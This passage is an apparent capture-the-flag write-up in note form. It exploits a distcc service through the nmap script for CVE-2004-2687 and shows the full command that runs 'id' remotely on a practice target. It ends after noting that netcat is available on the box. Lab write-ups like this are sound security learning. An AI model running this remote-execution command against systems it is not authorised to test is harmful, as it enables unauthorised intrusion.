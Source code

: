 **3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

- First i search in  nmap for a distccd script using find command  
![[Pasted image 20231112145721.png]]
i run 
```
sudo  less /usr/share/nmap/scripts/distcc-cve2004-2687.nse
```
![[Pasted image 20231112150001.png]]
```
sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
![[Pasted image 20231112151043.png]]
![[Pasted image 20231112151110.png]]
 we passed in "id" in the payload it returned the id similarly with the hostname .  so basically , we are executing arbitrary commands on the target through this Nmap Script  
 ![[Pasted image 20231112151903.png]]
 and we do have netcat on the box
 ![[Pasted image 20231112152228.png]]
 

